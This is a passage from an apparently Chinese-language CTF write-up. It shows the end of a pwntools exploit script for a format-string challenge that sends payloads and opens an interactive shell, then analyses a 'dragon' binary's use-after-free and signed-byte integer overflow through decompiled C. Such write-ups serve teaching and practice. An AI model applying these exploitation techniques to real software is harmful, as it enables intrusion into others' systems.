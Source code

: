 ```python
#p = gdb.debug('./fsb', gdb_init)
p = process('./fsb')
p.recvuntil(')\n')
p.sendline(fmt1)
p.recvuntil(')\n')
p.sendline(write1)
p.recvuntil(')\n')
p.sendline(fmt2)
p.recvuntil(')\n')
p.sendline(write2)
p.recvuntil('key : \n')
p.sendline('0')
p.interactive()
```

## dragon

此题目开了NX和Canary，程序中提供了`system("/bin/sh");`危险函数调用，仔细分析可知只要攻击获胜就能触发UAF漏洞。因为在`PriestAttack`和`KnightAttack`函数的结尾处均`free`掉了Player结构体，攻击成功后再次调用结构体中保存的函数指针：

```c
    v3 = KnightAttack((int)ptr, v5);
  }
  if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(_DWORD *))*v5)(v5); // v5 is freed in KnightAttack
  }
```

选择的英雄Knight是用蛮力打，Priest可以用魔法打，但正常分析下来均打不过Mama Dragon和Baby Dragon。没有明显的溢出操作，只有游戏人物属性值的加减，自然联想到可能存在整数溢出问题。注意到Mama Dragon的初始单字节HP为80，在`PriestAttack`函数中选择无敌操作，可使其多次回血。而循环判断是有符号的byte比较，多次施法产生溢出即可：

```c
      case 3:
        if ( *(_DWORD *)(a1 + 8) <= 24 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          puts("HolyShield! You Are Temporarily Invincible...");
          printf("But The Dragon Heals %d HP!\n", *((char *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
          *(_DWORD *)(a1 + 8) -= 25;
        }
        break;
      case 1:
        if ( *(_DWORD *)(a1 + 8) <= 9 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          printf("Holy Bolt Deals %d Damage To The Dragon!\n", 20);
          *((_BYTE *)ptr + 8) -= 20;
          *(_DWORD *)(a1 + 8) -= 10;
          printf("But The Dragon Deals %d Damage To You!\n", *((_DWORD *)ptr + 3));
          *(_DWORD *)(a1 + 4) -= *((_DWORD *)ptr + 3);
          printf("And The Dragon Heals %d HP!\n", *((char *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
```